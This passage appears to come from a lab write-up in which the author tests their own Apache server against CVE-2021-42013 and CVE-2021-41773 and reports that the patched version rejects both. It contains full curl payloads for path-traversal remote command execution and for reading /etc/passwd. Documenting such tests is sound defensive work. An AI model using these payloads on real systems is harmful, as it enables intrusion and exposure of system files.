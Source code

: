 
<br><br>


4. Simulated Apache Attacks: 

    - CVE-2021-42013 (Apache 2.4.50)

        - In the Kali EC2 run the following to test RCE using path traversal with script execution

            curl -v --path-as-is -d 'echo Content-Type: text/plain; echo; id' http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh

        - Output:  The path traversal and remote code execution was rejected indicating to me Apache 2.4.58 patched the traversal vulnerability

            ![alt text](image-7.png)



    - CVE-2021-41773 (Apache 2.4.49)

        - Using the following command, I attempted to retrieve /etc/passwd using double-encoded traversal

                curl -v --path-as-is http://172.31.24.26/cgi-bin/.%2e/.%2e/.%2e/.%2e/etc/passwd

        - Output:  There server rejected the malformed request indicating to me Apache 2.4.58 patched the traversal vulnerability

            ![alt text](image-8.png) 